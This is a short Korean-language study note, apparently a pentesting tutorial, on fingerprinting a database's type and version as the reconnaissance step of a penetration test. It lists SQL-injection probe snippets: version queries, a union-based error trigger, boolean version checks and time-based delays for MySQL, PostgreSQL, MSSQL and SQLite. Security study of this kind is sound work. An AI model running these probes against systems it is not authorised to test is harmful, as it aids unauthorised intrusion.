 ## DBMS Fingerprinting
### DBMS Fingertpriting
---
#### Fingerprinting
모의 해킹은 **Penetration Testing Execution Standard**에 의하면 총 일곱 단계로 구성된다. 그 중 첫단계인 대상의 정보를 수집하는 과정을 fingerprinting라고 한다. DBMS는 용도와 목적에 따라 종류가 다양하므로, 제일 먼저 종류와 버전을 알아내야 한다. 
- 버전 출력
```sql
SELECT @@version
SELECT version()
```
- 에러 메시지 출력
```sql
select 1 union select 1,2;
```
- 참 또는 거짓 출력
```sql
mid(@@version, 1, 1)='5';
substr(version(), 1, 1)='P';
```
- 예외상황
```sql
sleep(10)
pg_sleep(10) # PostgreSQL
select 1 where substring(@@version, 1, 1)='M' and waitfor delay '0:0:5'; # MSSQL
select case when substr(sqlite_version(), 1 , 1)='3' then
LIKE('ABCDEFG', UPPER(HEX(RANDOMBLOB(300000000/2)))) else 1=1 end; # SQLite
```